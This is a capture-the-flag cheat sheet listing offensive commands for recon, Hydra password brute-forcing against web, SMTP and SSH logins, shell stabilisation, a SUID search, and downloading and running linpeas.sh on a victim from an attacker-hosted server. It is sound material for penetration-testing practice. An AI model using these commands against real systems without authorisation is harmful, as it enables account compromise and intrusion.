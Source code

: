 # CTF-cheatsheet
## RECON
### NMAP
`sudo nmap -sV -sT -A -p- IP`
### FFUF
`ffuf -u http://IP/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -ac` no extensions \
`ffuf -u http://IP/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .php,.js,.html,.txt -ac` with extensions 
#### Other extensions that could be used: .cfg, .bak, .json, etc.
### Dirsearch
`dirsearch -u http://IP`
### Sqlmap
`sqlmap -u http://IP --forms`
#### Depending on the situation, `--level=` and `--risk=` can be used
## EXPLOIT
* ExploitDB
* GitHub
* Metasploit
### Hydra
`hydra -L useranme.txt -P passwords.txt IP/DOMAIN_NAME http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid creds or something" -V -f`
>HTTP form brute-forcing

`hydra -l bob -P /usr/share/wordlists/rockyou.txt IP http-get "/protected" -V -f`
>HTTP Basic auth

`hydra -l user -P list.lst IP smtps -V -f`
>SMTP/S Brute-forcing

`hydra -l user -P list.lst ssh://IP -V -f`
>SSH Brute-forcing

## PRIVESC
#### Shell stabilization
```
python3 -c 'import pty; pty.spawn("/bin/bash");'
export TERM=xterm
```
#### Background session
```
stty -raw echo
fg
```
#### Foreground back to victim

### Find SUID binaries
`find / -perm -u=s -type f 2>/dev/null`
### Get and run linpeas.sh
#### On attacker machine:
```
python3 -m http.server 9000
````
#### On victim
```
cd /tmp
wget -u http://IP:9000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
#### Curl can also be used, or whatever method to get linpeas.sh on victim's machine
